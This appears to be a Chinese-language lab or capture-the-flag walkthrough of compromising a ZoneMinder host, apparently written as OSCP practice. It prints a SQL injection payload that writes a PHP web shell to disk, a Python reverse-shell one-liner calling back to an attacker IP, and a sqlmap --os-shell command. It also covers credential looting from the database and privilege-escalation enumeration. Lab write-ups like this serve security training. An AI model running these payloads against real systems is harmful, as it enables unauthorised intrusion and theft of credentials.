


# 信息收集

## nmap


# web

80,3305,8080都是web服务，分别扫一下各个目录


/zm目录下有一个cms的后台，不需要登录，通过搜索得知该cms存在sql注入漏洞




## 方法一--尝试手注

使用exp中的示例可以成功注入


可以使用该sql语句写入一个shell文件

```
view=request&request=log&task=query&limit=100;(select "<?php system($_GET['132']); phpinfo();?>" into outfile '/var/www/html/shell5.php')#&minTime=1466674406.084434

```

可以成功命令执行


可以使用该反弹shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.243",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```


搜索一圈之后没有有用的信息，`www-data`的用户目录实在`/var/www/`下，但是该目录不是`/zm`应用目录，在前面sql注入的报错中可以找到真的网站源码所在的位置`/usr/share/zoneminder/www/`该目录下所有的文件都属于`www-data`，但是没有有用的用户信息


该文件夹下运行www-data用户写入，但是上传文件时还需要注意的是靶机对防火墙策略做了更改，只允许特定端口的流量进出，所以上传时攻击机开的服务器应该是特定端口，比如80

上传`linpeas.sh`脚本查找可提权的路径

仔细查看后是存在数据库连接账号密码的，但是前面信息收集不完善没有注意到。




并且本地开放了3306端口，那就可以使用mysql连接


数据库名上面的配置文件中有，查询表名，然后查询`Users`表


该密码可以成功破解，但是该密码不能成功登录到root用户


继续看上面自动化脚本执行的结果，其中该版本存在linux内核提权漏洞


查看他人的wp之后该cve确实可以提权，但是靶机上没有gcc，本地编译后上传会出现缺少依赖的情况，尝试许久无法解决，有能力的师傅可以自己试试。

## 方法二--sqlmap

前面的`sql注入`是可以使用`sqlmap`的，但是`OCSP`考试不允许使用该类自动化工具，所以尝试了前面的方法-手注，可以使用`sqlmap`的`--os-shell`参数直接`getshell`.

```
sqlmap http://192.168.153.52/zm --data="view=request&request=log&task=query&limit=100&minTime=1466674406.084434" -p limit --threads=5 --os-shell   
```

